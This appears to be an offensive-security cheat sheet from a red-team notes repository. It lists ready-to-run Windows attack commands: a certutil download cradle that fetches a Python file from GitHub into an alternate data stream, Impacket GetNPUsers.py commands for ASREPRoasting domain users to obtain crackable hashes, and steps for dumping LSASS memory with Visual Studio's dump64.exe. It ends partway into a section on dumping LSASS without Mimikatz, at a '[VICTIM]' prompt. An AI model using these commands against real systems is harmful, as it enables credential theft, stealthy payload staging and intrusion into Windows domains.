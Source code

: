 ## Certutil Download Cradle

Download and save a Python file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://github.com/RoseSecurity/APOLOGEE/blob/main/siemens_field_panel_scanner.py c:\temp:apologee.py
```

## Kerberoasting with Impacket

ASREPRoast

With Impacket example GetNPUsers.py:

```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
## Dumping LSASS With Visual Studio

Dump64: Memory dump tool that comes with Microsoft Visual Studio

Path: C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\dump64.exe

Enumerate for Visual Studio install:

```
C:\> code -v
```

Find LSASS PID:

```
tasklist /fi "Imagename eq lsass.exe"
```

Uuse Dump64 to dump LSASS:

```
C:\> dump64.exe <pid> out.dmp
```

## Dumping LSASS Without Mimikatz

To get LSASS process ID via CMD:

```
PS C:\Users\test> tasklist | findstr lsass
lsass.exe                      580 Services                   0     51,752 K
```


[VICTIM]: PS C:\Users\Victim\Documents>